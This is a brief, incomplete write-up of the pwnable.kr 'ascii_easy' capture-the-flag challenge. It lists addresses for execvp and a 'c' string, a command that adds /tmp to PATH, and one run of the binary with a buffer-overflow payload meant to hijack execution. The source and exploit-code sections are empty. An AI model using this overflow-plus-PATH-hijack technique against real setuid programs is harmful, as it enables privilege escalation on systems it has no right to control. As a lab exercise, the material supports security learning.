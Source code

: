 # Pwnable.kr ascii_easy CTF Writeup

## Problem Description  
The code provided for the challenge is as follows:

```c
```

## Analysis  

```asm
0x00b8a40 : execvp
0x000973c : 63 00 (c /0)

export PATH="$PATH:/tmp/dalal"
./ascii_easy 'AAAAAAAAAAAAAAAAAAAABBBB@jaU<wVU'
```
## Exploit Code
